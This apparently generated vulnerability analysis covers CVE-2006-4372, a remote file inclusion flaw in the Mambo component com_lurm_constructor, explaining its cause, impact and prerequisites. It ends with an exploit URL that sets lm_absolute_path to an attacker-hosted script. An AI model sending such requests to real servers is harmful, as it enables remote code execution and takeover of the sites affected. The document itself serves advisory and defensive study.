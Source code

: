 Based on the provided content, here's an analysis of CVE-2006-4372:

**Root Cause of Vulnerability:**
The vulnerability is a Remote File Inclusion (RFI) vulnerability within the Mambo component `com_lurm_constructor`. The root cause is the insecure use of the `include()` function in the `admin.lurm_constructor.php` file. Specifically, the script includes a file based on the `lm_absolute_path` parameter, which is directly taken from user input without sanitization.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The application includes a file based on a user-controlled parameter, allowing an attacker to include arbitrary remote files.
- **Lack of Input Sanitization:** The application does not validate or sanitize the `lm_absolute_path` parameter, allowing any URL to be passed.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** By including a malicious file from a remote server, an attacker can execute arbitrary code on the server hosting the vulnerable Mambo component. This could lead to complete compromise of the server and the website.
- **Data Breach/Theft:** The attacker could gain access to sensitive data stored on the server.
- **Website Defacement:** The attacker could alter the website’s content.
- **Malware Distribution:** The attacker could use the compromised server to distribute malware.

**Attack Vectors:**
- **HTTP GET Request:** An attacker can exploit this vulnerability by sending a crafted HTTP GET request to the vulnerable script (`admin.lurm_constructor.php`).
- **`lm_absolute_path` Parameter:** The attacker includes a URL to a malicious script in the `lm_absolute_path` parameter of the GET request.

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs to be able to send HTTP requests to the server hosting the vulnerable Mambo component.
- **Knowledge of Vulnerability:** The attacker needs to know about the vulnerable `admin.lurm_constructor.php` file and the `lm_absolute_path` parameter.
- **Ability to Host Malicious Script:** The attacker needs to have a remote server where they can host their malicious script.

**Exploit Example:**

The provided exploit example is:
`http://www.site.com/[path]/administrator/components/com_lurm_constructor/admin.lurm_constructor.php?lm_absolute_path=http://site.com/evilscript.txt?`

This demonstrates how an attacker could send a request to the vulnerable script with the `lm_absolute_path` parameter set to a remote file. When the script executes, it will attempt to include and execute the attacker-controlled content.